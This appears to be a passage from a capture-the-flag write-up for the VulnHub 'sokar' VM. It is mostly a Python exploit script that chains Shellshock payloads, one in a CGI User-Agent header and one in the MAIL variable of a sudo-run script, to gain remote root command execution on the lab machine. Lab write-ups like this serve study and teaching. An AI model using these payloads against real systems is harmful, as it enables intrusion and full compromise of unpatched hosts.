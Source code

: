 ## edit

I have been wondering if it was possible to get complete remote root command execution using the sample python scripts used for apophis and bynarr. Well, turns out the `lime` script run with `sudo` can be shocked too!

```python
#!/usr/bin/python

# 2015 Leon Jacobs
# sokar remote root command execution

import requests
import sys

if len(sys.argv) < 2:

    print " * Usage %s <cmd>" % sys.argv[0]
    sys.exit(1)

# Grab the command from the args
command = sys.argv[1].strip()

# prep to shock the lime script
root_command = """echo "N" | sudo MAIL=\\"() { :;}; %s;\\" /home/bynarr/lime""" % command

# prep to exec the command as bynarr
payload = """/usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','%s', 'bynarr']);" """ % root_command

# be verbose about the full command
print " * Executing %s\n" % payload

# Send the sploit
headers = { "User-Agent": "() { :;};echo;%s" % payload }
print requests.get("http://192.168.217.163:591/cgi-bin/cat", headers=headers).text.strip()
```

Run with `python root.py "/bin/cat /root/flag"` :D

Thanks to [@_RastaMouse](https://twitter.com/_RastaMouse) for the VM, and as always, [@VulnHub](https://twitter.com/VulnHub) for the hosting and great community!
